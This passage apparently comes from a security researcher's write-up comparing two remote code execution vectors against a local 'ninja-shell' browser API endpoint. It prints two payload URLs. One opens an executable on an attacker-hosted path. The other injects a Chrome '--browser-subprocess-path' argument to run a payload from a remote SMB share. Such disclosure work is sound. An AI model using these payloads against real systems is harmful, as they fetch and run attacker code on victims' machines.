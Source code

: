 The RCE vector which he used was really cool, it clearly shows how I missed such. Every bug we miss is an oppurtunity to learn more :)


The vector which I was using for RCE:

```
//ninja-shell/api/browser?method=open&url=/Volumes/attackerserver.com/public_html/pwn.exe&usedefaultapp=true
```

The one  used by Bálint:

```
//ninja-shell/api/browser?method=open&usedefaultapp=false&browser=chrome&url=//%22%20--browser-subprocess-path%3D%5C%5Cbalintmagyar.com%5Cpayload.exe%20--headless%20%22
```

You can notice the similarities the path endpoint is same, only difference is in the parameters which I totally failed to find about during my esalation this involves arguement injection in the chrome process + using SMB share to deliver the executable , so props to Bálint on finding this 🫡

<center>
<iframe width="560" height="315" src="https://www.youtube.com/embed/494MSLeW7n8?si=l9HtKiizcn6Y2LQU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
</center>
<br/>
<br/>